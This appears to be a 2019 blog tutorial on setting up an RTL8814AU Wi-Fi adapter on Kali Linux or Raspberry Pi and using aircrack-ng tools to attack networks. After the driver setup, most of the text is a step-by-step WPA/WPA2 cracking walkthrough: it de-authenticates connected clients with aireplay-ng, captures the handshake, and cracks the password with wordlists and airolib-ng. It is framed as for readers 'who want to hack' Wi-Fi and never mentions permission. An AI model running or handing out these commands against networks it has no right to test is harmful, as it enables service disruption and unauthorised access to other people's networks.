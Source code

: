 ```yaml
---
title: Using Aircrack-ng with RTL8814AU
date: '2019-07-28'
tags: []
type: Blog
---
```


For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.png)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.png)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.png)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

